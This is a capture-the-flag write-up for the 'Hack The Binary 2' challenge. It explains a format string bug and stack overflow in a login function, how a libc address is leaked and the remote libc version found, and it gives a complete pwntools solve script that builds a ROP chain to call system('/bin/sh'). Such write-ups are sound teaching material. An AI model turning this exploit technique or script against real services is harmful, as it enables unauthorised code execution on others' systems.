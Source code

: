 # Hack The Binary 2


<div class="hidden">
    <details>
        <summary>Keywords</summary>
            PwC CTF: Hack A Day 2023 - Securing AI, pwn, format string, ROP
    </details>
</div>

## TL;DR

Format string to defeat ASLR, ROP to get RCE

## Initial Analysis

The given binary file is almost similar to `Hack the Binary 1`, but without the
flag lying around in the memory and array OOB. Instead, the `login()` function
is now susceptible to format string attack. Furthermore, it is also subjected to
buffer overflow as the `scanf` format is not restricted by length.

```c
__int64 login() {
  __int64 result; // rax
  char format; // [rsp+Ah] [rbp-6h]

  do {
    printf("Please Enter Password (4 digit numbers): ");
    __isoc99_scanf("%s", &format);
    printf("Your Password is ");
    printf(&format);  // <=== format string !!!
    putchar(10);
    result = password_checker(&format);
  } while ( (_DWORD)result != 1 );
  return result;
}
```

## Solution

The first step is to leak the stack and look for any interesting address,
particularly the one that points to libc memory space since we want to call
`system()` later on to pop a shell. The format string that would be discussed
in this writeup is `%n$llx` where `n` specify the stack offset and `llx` for
64-bit value in hex format.

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln2", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}


def printf_leak(idx):
    payload = f"%{idx}$llx".encode()
    io.sendline(payload)
    io.recvuntil(b"is ")
    leak = int(io.recvline(keepends=False), 16)
    return leak


io = start()

for i in range(1, 16):
    leak = printf_leak(i)
    log.info(f"{i} {leak:#x}")

io.interactive()
```

Based on the result, the third entry is a libc address value.

![printf leak result](./img/1.png)

> [!NOTE]
> One could also double check where is the libc memory region via `/proc/<pid>/maps`
> ![proc maps](./img/2.png)

Since the challenge does not come with a libc file, we could not directly compute
the offset between the leaked address with the base address of libc. The local
libc used in this writeup is of version `2.35-0ubuntu3`. Now, if we try to run
it against the remote server, we could see that the lowest 3 nibbles (hex digit)
is different (local is `a37`, remote is `a77`). We only compare the lowest 3
nibbles since ASLR does not affect these 3. This means that the remote server
is using a different libc version.

![remote result](./img/4.png)

We need to check if the leaked address belongs to any libc function such that
we could use the known symbol as a lookup value on libc database like:

- <https://libc.rip>
- <https://libc.blukat.me>

Now, if we attached gdb to the process (that is running local binary), we could
see that the address lies within `__GI___libc_write`.

![gdb](./img/3.png)

If we try to use the symbol name `__GI___libc_write` with the address
`0xa37-23 = 0xa20`, [libc.rip](https://libc.rip) returns us results. However,
there is no `2.35-0ubuntu3`. This means that the symbol name is not quite right.

![libc_rip](./img/6.png)

If we try to break at the beginnning of the function, `gef` (gdb plugin)
labels the function as `write`.

![gef](./img/5.png)

Now, if we use replace the symbol name with `write` instead, we get more results
and `2.35-0ubuntu3` is among them.

![libc_rip2](./img/7.png)

Next, we just need to replace the address value with the one that we got from
remote server, i.e., `0xa77-23 = 0xa60`. If we diff the results between
`__GI___libc_write 0xa60` and `write 0xa60`, we could deduce that `libc6_2.35-0ubuntu3.4_amd64`
is probably the correct one. Click on the result and we could see various offsets,
e.g., `write`, `system`, `str_bin_sh`, etc. With the offset of `write`, we could
compute the libc base address on the remote side and then use the base address
to locate `system` function address within the process memory and various other
stuffs. Another thing that we need is also a `pop rdi; ret;` gadget which does not
exist in the binary file, but is available from the libc file.

Final solve script:

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln2", checksec=False)
libc = ELF("./libc.so.6", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}


def printf_leak(idx):
    payload = f"%{idx}$llx".encode()
    io.sendline(payload)
    io.recvuntil(b"is ")
    leak = int(io.recvline(keepends=False), 16)
    return leak


io = start()

# for i in range(1, 16):
#     leak = printf_leak(i)
#     log.info(f"{i} {leak:#x}")

libc_leak = printf_leak(3)
libc.address = libc_leak - 0x114a60 - 23
log.info(f"{libc.address=:#x}")
pop_rdi = libc.address + 0x001bc0a1
ret = pop_rdi + 1
bin_sh = next(libc.search(b"/bin/sh\x00"))

payload = b"A" * 6
payload += p64(elf.bss(0xc00))
payload += flat(
    pop_rdi, bin_sh,
    ret,  # stack alignment
    libc.sym["system"]
)
io.sendline(payload)
io.sendline(b"1235")

io.interactive()
```

